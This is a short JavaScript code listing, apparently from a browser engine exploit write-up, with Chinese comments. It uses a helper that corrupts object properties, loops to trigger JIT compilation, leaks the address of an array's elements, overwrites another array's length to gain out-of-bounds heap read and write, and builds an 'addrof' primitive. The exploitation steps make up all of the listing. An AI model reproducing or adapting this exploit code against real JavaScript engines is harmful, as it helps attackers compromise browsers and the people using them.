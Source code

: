 ```javascript

 for (let i = 0; i < 20; ++i) {
	proto1 = {};
	const [o1, o2] = createCorruptedPair(proto1, 1.1, obj_arr)

	read_props_elems = (o) => {
		return o.corrupted_prop;
	}

	for (let i = 0; i < 10000; ++i) {
		read_props_elems(o1);
	}

	// 读取 obj_arr 数组的 elements
	obj_arr_elems = high32u(ftou(read_props_elems(o2)));
	console.log('obj arr elems:', obj_arr_elems.toString(16));
}

// 从 elements[0] 读取 double_arr 指针

v1 = [1.1, 1.2, 1.3];
v1.p = 1;

proto2 = {};
const [oa, ob] = createCorruptedPair(proto2, v1, utof(BigInt(`0x${obj_arr_elems.toString(16)}00000000`)));

read_heap_mem = (o) => {
	return o.corrupted_prop[0];
}

for (var i = 0; i < 100000; ++i)
	read_heap_mem(oa);

double_arr_start = low32u(ftou(read_heap_mem(ob)));
console.log('obj_arr[0]:', double_arr_start.toString(16));

// 修改 double_arr 的 elements
const elements_offset = 0x8;

elems_len = utof(BigInt(`0x000000f0${obj_arr_elems.toString(16).padStart(8, '0')}`));

write_heap_mem = (o) => o.corrupted_prop[0] = elems_len;

proto3 = {}
const [oc, od] = createCorruptedPair(proto3, v1, utof(BigInt(`0x${double_arr_start.toString(16)}00000000`)));

for (let i = 0; i < 100000; ++i)
	write_heap_mem(oc);

write_heap_mem(od);

console.log(double_arr.length);


// 更稳定的 addrof
addrof = (o) => {
	obj_arr[0] = o;
	return low32u(ftou(double_arr[0]));
}


```